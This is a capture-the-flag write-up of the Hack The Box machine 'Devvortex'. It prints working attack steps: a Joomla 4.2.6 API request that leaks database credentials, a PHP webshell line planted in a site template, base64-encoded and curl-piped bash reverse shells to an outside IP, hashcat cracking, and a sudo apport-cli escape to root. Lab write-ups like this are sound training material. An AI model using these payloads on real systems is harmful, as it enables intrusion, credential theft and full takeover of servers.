




#
Devvortex is an Easy machine that involves subdomain fuzzing to find a new subdomain. Once the subdomain is found a public CVE can be used to gain access to the Joomla administrator panel. The admin panel can be used to get command execution and then a reverse shell. Once on the box a `sudo` misconfiguration combined with another public exploit can be used to get root.
### Nmap
I start off with an nmap scan. First running `sudo nmap -p- -v $IP` to enumerate all ports, and then `sudo nmap -sC -sV -p 22,80 -v $IP` to run service and version enumeration against the open ports.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap finds 2 ports running, SSH on port 22, and HTTP on port 80.
### HTTP port 80
Port 80 just holds a static html site. I run `feroxbuster` on it, but don't get anything too interesting. I run `ffuf` to scan for subdomains, and find `dev`.
```ffuf
┌──(kali㉿Kali)──[18:08:35]──[~/htb/Machines/Devvortex]
└─$ ffuf -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb' -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 131ms]
:: Progress: [19966/19966] :: Job [1/1] :: 451 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```
I add this to my `/etc/hosts` file and then run feroxbuster against this subdomain.

This subdomain is a lot more interesting. I see endpoints like `/adminsitrator`. Browsing there is a login page for Joomla. There is also a `/api` endpoint. Feroxbuster behaves rather strange here. It first scans very quickly, and then slows down to around 40~ requests per second. This is annoying, but it does give me quite a bit to work with already.

I check the [HackTricks page on Joomla]() to get some good jumping off points. I browse to `/administrator/manifests/files/joomla.xml` And am able to get some good info about the Joomla configuration. I see that it is running version 4.2.6. Checking for any public exploits for this version, I find [this blog post](https://vulncheck.com/blog/joomla-for-rce), which is for an RCE vuln in Joomla 4.0.0-4.2.7, meaning this version should be vulnerable.

Stunningly, this vulnerability is very simple. I simply `curl` a specific endpoint with the paramter `?public=true` which leaks the credentials for the MySQL database. I curl the endpoint and pipe it `jq` to make it easier to read, since the response is `json`.
```bash
┌──(kali㉿Kali)──[20:05:27]──[~/htb/Machines/Devvortex]
└─$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq .
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
<...SNIP...>
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "<REDACTED>",
        "id": 224
      }
    },
<...SNIP...>
  }
}
```
And right there in the output are credentials for the user `Lewis`. Because MySQL on port 3306 is not open, this might not have been too devastating, but the user reused these credentials for the Joomla admin account. I use these to log in at `/administrator` and now have access to the admin dashboard.



From here I can quite easily create a webshell. I browse to System>Site Templates>Cassiopeia Details and Files. I then click into `error.php` and add a webshell line at the top of the file
```php
system($_REQUEST['c']);
```



I then hit "Save & Close". I now have command execution! All I have to do is send a command in the paramter `c` to the `error.php` page.
```bash
┌──(kali㉿Kali)──[20:22:58]──[~/htb/Machines/Devvortex]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
                                                                                                                               
┌──(kali㉿Kali)──[20:23:05]──[~/htb/Machines/Devvortex]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=ls -la"
total 80
drwxr-xr-x 4 www-data www-data  4096 Oct 29 16:21 .
drwxr-xr-x 4 www-data www-data  4096 Dec 13  2022 ..
drwxr-xr-x 3 www-data www-data  4096 Oct 26 16:06 cassiopeia
-r--r--r-- 1 root     www-data  3888 Dec 13  2022 component.php
-rw-r--r-- 1 www-data www-data 10169 Nov 26 04:23 error.php
drwxr-xr-x 6 www-data www-data  4096 Dec 13  2022 html
-r--r--r-- 1 root     www-data 23204 Oct 26 16:06 index.php
-rwxr-xr-x 1 www-data www-data  3008 Dec 13  2022 joomla.asset.json
-r--r--r-- 1 www-data www-data 10196 Dec 13  2022 offline.php
-rwxr-xr-x 1 www-data www-data  4670 Dec 13  2022 templateDetails.xml
```
It seems there's a cronjob on the box that is resetting the `error.php` page fairly often, so i have to send my reverse shell quickly. 

To avoid issues with special characters, I base64 encode my bash revevrse shell, and then send that to the webshell and decode it and pipe it to bash
```bash
# I add some spaces in certain places to get rid of any "+" or "=", as they can get funky in webservers
echo 'bash -i  >& /dev/tcp/10.10.15.34/9001 0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAwPiYxICAK

# Start netcat listener
nc -lvnp 9001

# Payload sent to webshell. Echo the b64, pipe into base64 to be decoded, and pipe that into bash
curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=echo+'YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAwPiYxICAK'|base64+-d|bash"
```
Interestingly, I don't get a response. I create a `www` directory and start a python http server there. I then `curl` it with the web shell, and i get a hit.

I then write a bash rev shell and place it in my webserver directory
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```
With the webshell, I curl this bash revshell and pipe it to bash, and catch it on my netcat listener.

```bash
# Start a python http server on port 80
python3 -m http.server 80

# Start a netcat listener on port 9001
nc -lvnp 9001

# Use the webshell to curl the reverse shell and pipe it to bash
curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php -X POST --data "c=curl http://10.10.14.10/shell.sh|bash"
```
I then use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to get a better shell.

Once on the box, I log in to the MySQL database to see if I can get anything useful. I find 2 hashes for `logan` and `lewis`.  I use `hashid` to identify them as bcrypt with hashcat mode 3200
```bash
hashid -m '$2y$10$<REDACTED>'               
Analyzing '$2y$10$<REDACTED'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
I am able to crack `logan's` password in hashcat
```bash
hashcat -a 0 -m 3200 logan /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3
hashcat (v6.2.6) starting

<...SNIP...>

Dictionary cache hit:
* Filename..: /opt/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$<REDACTED>:teq<REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sat Nov 25 21:18:17 2023 (8 secs)
Time.Estimated...: Sat Nov 25 21:18:25 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1212 H/s (65.80ms) @ Accel:16 Loops:8 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> 11221122
Hardware.Mon.#1..: Temp: 38c Fan: 28% Util:100% Core:2010MHz Mem:7000MHz Bus:16

Started: Sat Nov 25 21:18:12 2023
Stopped: Sat Nov 25 21:18:27 2023
```
Checking `/etc/passwd`, I see that the only other user on the box is `logan`, I try out his password, and it allows me to switch over to his account.
```bash
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ su logan
Password: 
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ 
```
The first thing I do on `logan's` account is check `sudo -l` to see if he can run anything interesting.
```bash
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
He can run `apport-cli`. I check [gtfobins](https://gtfobins.github.io/) but nothing there. I then search for *"apport-cli exploit"* and the first result is [this CVE](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). The vulnerable versions are specified as apport-cli 2.26.0 and earlier. I run `apport-cli -v` and see the version is `2.20.11`, so it should be vulnerable. The NIST page states that *"If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege."*, which seems like it's this exact scenario. I can run `apport-cli` with sudo, `less` is almost always the default pager (but I can check this with `cat ~/.bashrc`), and I can set my terminal size, as that's what I did in the python pty trick with `stty rows 69 columns 127`.

I have a pretty good idea of how this exploit works, and I want to see if I can figure it out without viewing a proof of concept. My guess is that apport, which is a program to generate crash reports, has a way of landing you inside a `less` window. `Less`, when ran with `sudo`, can be used to get a root shell by running `!/bin/bash` while inside of it. Because `apport-cli` was run with `sudo`, the less window will be as well. So let's try to get ourselves inside a less window.

I run `apport-cli --help` to get an idea of the commands. I see that `-f` will start up in bug filing mode, and it wants me to supply either a PID with `-P` or a package with `-p`. So I run `sudo apport-cli -f -p apport` I then get a prompt asking what I would like to do. One option is `V: View Report`, sounds promising. So I hit V, and find myself inside a `less` window! I then run `!/bin/bash` and get a root shell! Very cool.
```bash
# Running --help to get my bearings
logan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
  -c PATH, --crash-file=PATH
                        Report the crash from given .apport or .crash file
                        instead of the pending ones in /var/crash. (Implied if
                        file is given as only argument.)
  --save=PATH           In bug filing mode, save the collected information
                        into a file instead of reporting it. This file can
                        then be reported later on from a different machine.
  --tag=TAG             Add an extra tag to the report. Can be specified
                        multiple times.
  -v, --version         Print the Apport version number.

# Choosing "V" to get into a less terminal
ogan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo /usr/bin/apport-cli -f -p apport

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
........................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (5.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

# Once in the less terminal I tye
!/bin/bash

# And pop out into a shell as root
root@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia# cat /root/root.txt
babc3e--------------------------
```